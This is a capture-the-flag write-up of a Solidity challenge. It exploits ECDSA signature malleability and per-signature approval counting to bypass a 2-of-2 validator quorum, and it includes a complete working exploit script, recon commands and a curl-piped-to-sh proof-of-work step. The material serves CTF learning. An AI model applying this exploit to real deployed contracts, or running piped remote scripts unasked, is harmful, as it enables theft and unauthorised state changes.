

> Note: I solved this challenge with LLM

# フェイクフェイス·フェイルセイフ

## Intro

This challenge looks formal at first glance: quorum validation, an oracle root, and a `2-of-2` threshold before the state can move forward.

But the real bug is much more classical than the design suggests. The contracts accidentally combine:

- ECDSA signature malleability
- approval counting by signature instead of unique signer
- replay protection that keys off raw signature bytes only

That means the supposed threshold of `2` can be satisfied with the same validator signature counted twice.

The final goal is very small:

- `Setup.isSolved()` must return `true`
- which only means `oracle.currentRoot()` has to become `targetRoot`

## Recon: What Is in the Release?

The release archive contains Solidity contracts plus the deployment helper:

```bash
$ unzip -l release.zip
Archive:  release.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
        0  2026-01-31 16:35   release/
      235  2026-01-31 16:35   release/Dockerfile
        0  2026-01-31 16:35   release/contracts/
      589  2026-01-31 16:35   release/contracts/Setup.sol
      746  2026-01-31 16:35   release/contracts/ValidatorQuorum.sol
     1856  2026-01-31 16:35   release/contracts/StateRootOracle.sol
        0  2026-01-31 16:35   release/deploy/
     3738  2026-01-31 16:35   release/deploy/chal.py
        0  2026-01-31 16:37   release/deploy/requirements.txt
---------                     -------
     7164                     9 files
```

The useful files are:

- `contracts/*.sol` for the actual bug
- `deploy/chal.py` for the initialization details

This is not a browser bug or a binary challenge. It is a launcher-backed blockchain challenge, which is why I am filing it under `misc`.

## Recon: The Web Launcher Flow

The public URL is only the infrastructure around the private chain instance. The normal solve flow is:

1. get the proof-of-work challenge
2. solve it
3. launch the private blockchain
4. read the provided RPC URL, private key, and setup contract address
5. solve on-chain, then claim the flag

The unauthenticated endpoints behave like this:

```bash
$ python3 - <<'PY'
import requests
base='http://chall-ctf.ara-its.id:39065'
print('GET /challenge')
r=requests.get(base+'/challenge',timeout=10)
print('status',r.status_code)
print(r.text)

print('\\nGET /data (no auth)')
r=requests.get(base+'/data',timeout=10)
print('status',r.status_code)
print(r.text)

print('\\nGET /status (no auth)')
r=requests.get(base+'/status',timeout=10)
print('status',r.status_code)
print(r.text)
PY
GET /challenge
status 200
{"challenge":"s.AAAnEA==./LEvYiewBGGjuWQvMvV37Q=="}

GET /data (no auth)
status 200
{}

GET /status (no auth)
status 401
{"code":401,"error":"Authentication required","success":false}
```

So `/challenge` is public, but `/status` and the rest of the session flow require the cookie that is issued after solving the PoW.

The archived solve used the redpwn PoW helper:

```bash
$ rm -f cookies.txt

$ CHAL=$(curl -s -c cookies.txt http://chall-ctf.ara-its.id:39065/challenge \
  | sed -n 's/.*"challenge":"\\([^"]*\\)".*/\\1/p')

$ SOL=$(curl -sSfL https://pwn.red/pow | sh -s "$CHAL" | tail -n 1)

$ curl -s -b cookies.txt -c cookies.txt \
  -H 'Content-Type: application/json' \
  -d "{\"solution\":\"$SOL\"}" \
  http://chall-ctf.ara-its.id:39065/solution
{"message":"Challenge solved successfully"}

$ curl -s -b cookies.txt -X POST http://chall-ctf.ara-its.id:39065/launch
{"0":{"RPC_URL":"{ORIGIN}/7c91e3f8-d77f-488c-baf4-adc6c198d263","WS_URL":"ws://{ORIGIN}/7c91e3f8-d77f-488c-baf4-adc6c198d263/ws"},"1":{"PRIVKEY":"a89118474b2bc02c389e4e0a79d78aec322edf6d40b69daebb89c1411268e35d"},"2":{"SETUP_CONTRACT_ADDR":"0x78D30335be0002e4E8a447d10711ca7Eff128E45"},"3":{"WALLET_ADDR":"0x4dFc58009253A6F42E696257420ad4370cf9017B"},"message":"Your private blockchain has been deployed. It will automatically terminate in 30 minutes.","success":true}
```

That returns exactly the three things needed for the exploit:

- `RPC_URL`
- `PRIVKEY`
- `SETUP_CONTRACT_ADDR`

## `Setup.sol`: The Win Condition Is Tiny

The `Setup` contract is only a wrapper:

```solidity
contract Setup {
    ValidatorQuorum public quorum;
    StateRootOracle public oracle;
    bytes32 public targetRoot;

    constructor(...) payable {
        quorum = new ValidatorQuorum(validators, threshold);
        oracle = new StateRootOracle(quorum, approvedRoot);
        targetRoot = targetRoot_;
    }

    function isSolved() external view returns (bool) {
        return oracle.currentRoot() == targetRoot;
    }
}
```

So the real target is `StateRootOracle.submitRoot()`.

## The Deployment Script Gives Away the Important Constants

The deployment helper is very useful:

```python
VALIDATOR_KEYS = [
    "0x1000...0001",
    "0x1000...0002",
]
THRESHOLD = 2

APPROVED_ROOT = keccak("approved-root")
TARGET_ROOT   = keccak("pwned-root")
```

The validator addresses derived from those keys are:

```bash
$ node - <<'JS'
const { ethers } = require('ethers');
const keys = [
  '0x1000000000000000000000000000000000000000000000000000000000000001',
  '0x1000000000000000000000000000000000000000000000000000000000000002',
];
for (const k of keys) console.log(k, '=>', new ethers.Wallet(k).address);
JS
0x1000000000000000000000000000000000000000000000000000000000000001 => 0x9C7BC14e8a4B054e98C6DB99B9f1Ea2797BAee7B
0x1000000000000000000000000000000000000000000000000000000000000002 => 0x8d6d63c22D114C18C2a0dA6Db0A8972Ed9C40343
```

And the roots are:

```bash
$ node - <<'JS'
const { ethers } = require('ethers');
console.log('APPROVED_ROOT =', ethers.solidityPackedKeccak256(['string'], ['approved-root']));
console.log('TARGET_ROOT   =', ethers.solidityPackedKeccak256(['string'], ['pwned-root']));
JS
APPROVED_ROOT = 0x9574b568b22a5439eb1a4d0d2143ef344e251333eb54ff49f34c4034214680dc
TARGET_ROOT   = 0x49accf4f80f0a5761eb7abd3461fbf3321ff47148c745b30b6af3b791448ca96
```

The most important deployment detail is subtler:

- the script submits `APPROVED_ROOT` once during setup
- that populates `lastSignatures` inside the oracle

So the contract itself already stores a previously used validator signature for the current digest. That becomes the starting point of the exploit.

## The Real Bug Chain in `submitRoot()`

This is the vulnerable logic:

```solidity
function submitRoot(bytes32 newRoot, bytes[] calldata signatures) external {
    bytes32 digest = keccak256(abi.encodePacked(currentRoot));
    uint256 approvals;
    for (uint256 i = 0; i < signatures.length; i++) {
        (bytes32 r, bytes32 s, uint8 v) = _splitSignature(signatures[i]);
        bytes32 sigHash = keccak256(signatures[i]);
        if (usedSignature[sigHash]) {
            revert SignatureAlreadyUsed();
        }
        address signer = ecrecover(digest, v, r, s);
        if (quorum.isValidator(signer)) {
            approvals++;
        }
    }

    if (approvals < quorum.threshold()) {
        revert NotEnoughApprovals();
    }

    delete lastSignatures;
    for (uint256 i = 0; i < signatures.length; i++) {
        bytes32 sigHash = keccak256(signatures[i]);
        usedSignature[sigHash] = true;
        lastSignatures.push(signatures[i]);
    }

    currentRoot = newRoot;
}
```

There are three separate problems that combine cleanly:

1. approvals are counted per signature, not per unique signer
2. replay protection is based on `keccak256(signature_bytes)`, not `(digest, signer)`
3. `usedSignature` is only written in the second loop, so duplicates inside the same transaction are not rejected

That is enough for a threshold bypass.

## Why ECDSA Malleability Solves It

For secp256k1 ECDSA, if `(r, s)` is a valid signature, then `(r, n - s)` is also valid for the same message.

If you also flip the recovery bit `v`, `ecrecover()` resolves back to the same signer.

So from one already-used signature, we can derive a new signature that:

- has different bytes, so `keccak256(signature_bytes)` changes
- still verifies for the same digest
- still recovers to the same validator

That is the core bypass.

Then the threshold bug finishes the job:

- send the same malleated signature twice
- each one increments `approvals`
- `approvals` becomes `2`
- threshold `2` is satisfied with one real signer

## Exploitation

Using the archived launcher output:

- `RPC_URL`: `http://chall-ctf.ara-its.id:39065/7c91e3f8-d77f-488c-baf4-adc6c198d263`
- `PRIVKEY`: `a89118474b2bc02c389e4e0a79d78aec322edf6d40b69daebb89c1411268e35d`
- `SETUP_CONTRACT_ADDR`: `0x78D30335be0002e4E8a447d10711ca7Eff128E45`

The archived exploit run was:

```bash
$ RPC_URL='http://chall-ctf.ara-its.id:39065/7c91e3f8-d77f-488c-baf4-adc6c198d263' \
  PRIVKEY='a89118474b2bc02c389e4e0a79d78aec322edf6d40b69daebb89c1411268e35d' \
  SETUP_ADDR='0x78D30335be0002e4E8a447d10711ca7Eff128E45' \
  node exploit.js
solved
```

After that, the flag endpoint returned:

```bash
$ curl -s -b cookies.txt http://chall-ctf.ara-its.id:39065/flag
{"flag":"ARA7{isnt_signature_malleability_cool?_now_with_a_twist_of_validator_quorums}","message":"Congratulations!","success":true}
```

The final popup flag screenshot from the archived solve is below:



## Solver Script

I attached the archived solver as [exploit.js](./exploit.js). The full script is included below.

```javascript
const { ethers } = require("ethers");

// secp256k1 curve order (n).
// For ECDSA, a signature (r, s) is valid iff 0 < r < n and 0 < s < n.
// A classic malleability property:
//   (r, s) and (r, n - s) are both valid signatures for the same message.
// If you also flip the recovery id (v), ecrecover() returns the same signer.
const SECP256K1_N = BigInt(
  "0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFEBAAEDCE6AF48A03BBFD25E8CD0364141"
);

function flipRecoveryByte(v) {
  if (v === 27) return 28;
  if (v === 28) return 27;
  if (v === 0) return 1;
  if (v === 1) return 0;
  throw new Error(`unexpected v byte: ${v}`);
}

function malleateSignature(sigBytes) {
  if (sigBytes.length !== 65) throw new Error("signature must be 65 bytes");
  const r = sigBytes.slice(0, 32);
  const s = sigBytes.slice(32, 64);
  const v = sigBytes[64];

  const sInt = BigInt(ethers.hexlify(s));
  const s2Int = SECP256K1_N - sInt;
  const s2 = ethers.zeroPadValue(ethers.toBeHex(s2Int), 32);
  const v2 = flipRecoveryByte(v);

  return ethers.concat([r, s2, Uint8Array.from([v2])]);
}

async function main() {
  const rpcUrl = process.env.RPC_URL;
  const privKey = process.env.PRIVKEY;
  const setupAddr = process.env.SETUP_ADDR;

  if (!rpcUrl || !privKey || !setupAddr) {
    throw new Error("need RPC_URL, PRIVKEY, SETUP_ADDR env vars");
  }

  // The infra behind this challenge sometimes throws 500s if the client sends
  // JSON-RPC batch requests. For ethers v6, force single-request mode.
  const provider = new ethers.JsonRpcProvider(rpcUrl, undefined, {
    batchMaxCount: 1,
  });
  const wallet = new ethers.Wallet(privKey, provider);

  const setup = new ethers.Contract(
    setupAddr,
    [
      "function oracle() view returns (address)",
      "function targetRoot() view returns (bytes32)",
      "function isSolved() view returns (bool)",
    ],
    wallet
  );

  const oracleAddr = await setup.oracle();
  const targetRoot = await setup.targetRoot();

  const oracle = new ethers.Contract(
    oracleAddr,
    [
      "function currentRoot() view returns (bytes32)",
      "function submitRoot(bytes32 newRoot, bytes[] signatures)",
      "function lastSignature(uint256 i) view returns (bytes)",
      "function lastSignatureCount() view returns (uint256)",
    ],
    wallet
  );

  const alreadySolved = await setup.isSolved();
  if (alreadySolved) {
    console.log("already solved");
    return;
  }

  // The deploy script initializes the oracle by submitting APPROVED_ROOT once,
  // storing the validator signatures in `lastSignatures`.
  //
  // We take one stored signature, malleate it (new bytes, same signer),
  // then submit TARGET_ROOT with the same malleated signature repeated twice.
  //
  // This passes because:
  // 1) `usedSignature` only checks signature BYTES (keccak256(sig)),
  //    not (signer,message). Malleated sig has a different hash.
  // 2) approvals++ counts each signature, even if the signer repeats.
  // 3) duplicates within the same tx are not rejected (usedSignature is
  //    only written in the second loop after approvals check).
  const sigCount = await oracle.lastSignatureCount();
  if (sigCount === 0n) throw new Error("no last signatures found");

  const usedSig = await oracle.lastSignature(0);
  const malSigBytes = malleateSignature(ethers.getBytes(usedSig));
  const malSig = ethers.hexlify(malSigBytes);

  const tx = await oracle.submitRoot(targetRoot, [malSig, malSig]);
  await tx.wait();

  const solved = await setup.isSolved();
  if (!solved) throw new Error("exploit transaction mined but not solved");
  console.log("solved");
}

main().catch((err) => {
  console.error(err);
  process.exit(1);
});
```

## Pseudocode Summary

A simpler version of the vulnerable oracle logic is:

```text
function submitRoot(newRoot, signatures):
    digest = keccak256(currentRoot)
    approvals = 0

    for sig in signatures:
        if usedSignature[keccak256(sig)]:
            revert

        signer = ecrecover(digest, sig)
        if signer in validators:
            approvals += 1

    if approvals < threshold:
        revert

    for sig in signatures:
        usedSignature[keccak256(sig)] = true
        lastSignatures.push(sig)

    currentRoot = newRoot
```

And the exploit is:

```text
sig  = oracle.lastSignatures[0]
sig' = malleate(sig)
submitRoot(targetRoot, [sig', sig'])
```

That works because:

- `sig'` has different bytes, so it bypasses the `usedSignature` hash check
- `sig'` still verifies for the same signer and same digest
- the same signer is counted twice

## Flag

```text
ARA7{isnt_signature_malleability_cool?_now_with_a_twist_of_validator_quorums}
```

## Closing

The nice part of this challenge is that every individual check sounds reasonable when read in isolation:

- there is a validator list
- there is a threshold
- there is replay protection

But all three are implemented with the wrong unit of identity. The contract counts signatures, not unique signers, and tracks raw signature bytes instead of signed context.

That is exactly the kind of bug chain that makes smart-contract CTFs fun: the exploit is not “breaking crypto”, it is abusing assumptions around how crypto results are counted.

## References

- [OpenZeppelin ECDSA docs](https://docs.openzeppelin.com/contracts/5.x/api/utils#ECDSA)
- [EIP-2 low-s rule](https://eips.ethereum.org/EIPS/eip-2)
- [Ethereum Yellow Paper](https://ethereum.github.io/yellowpaper/paper.pdf)
- [ethers.js v6 docs](https://docs.ethers.org/v6/)
